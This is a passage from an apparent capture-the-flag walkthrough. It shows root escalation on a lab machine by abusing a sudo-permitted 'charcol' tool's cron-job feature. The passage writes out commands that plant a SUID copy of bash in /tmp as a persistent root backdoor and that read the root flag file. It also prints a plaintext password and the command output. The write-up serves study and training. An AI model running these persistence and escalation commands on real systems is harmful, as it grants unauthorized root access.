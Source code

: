 ### Step 17: Enter Interactive Shell

```bash
sudo /usr/local/bin/charcol shell
```

**You're now in the Charcol interactive shell as root!**

### Step 18: Exploit Cron Job Feature

The `auto add` command allows us to create cron jobs that run **arbitrary shell commands as root**.

**Check available commands:**

```bash
help auto
```

**Key information:**
- We can add cron jobs with custom shell commands
- Since we're in "no password mode" (status 2), it only requires the system password
- The `--command` parameter is **not validated** for safety

### Step 19: Create Malicious Cron Job

**Option 1: Create a SUID binary for persistent root access**

```bash
auto add --schedule "* * * * *" --command "/bin/cp /bin/bash /tmp/rootbash && /bin/chmod +s /tmp/rootbash" --name "rootshell"
```

**Explanation:**
- **Schedule:** `* * * * *` (runs every minute)
- **Command:** Copies bash to `/tmp/rootbash` and sets the SUID bit
- **Name:** `rootshell` (job identifier)

**When prompted, enter mark's password:** `supersmash`

**Output:**

```
[INFO] System password verified successfully.
[INFO] Auto job 'rootshell' (ID: 2c6d5e7f-562f-463d-8e4f-3c8ab39ea10f) added successfully.
[INFO] Cron line added: * * * * * CHARCOL_NON_INTERACTIVE=true /bin/cp /bin/bash /tmp/rootbash && /bin/chmod +s /tmp/rootbash
```

**Option 2: Directly steal the root flag**

```bash
auto add --schedule "* * * * *" --command "/bin/bash -c 'cat /root/root.txt > /tmp/root_flag.txt && chmod 777 /tmp/root_flag.txt'" --name "getflag"
```

### Step 20: Wait and Exploit

**Exit the Charcol shell:**

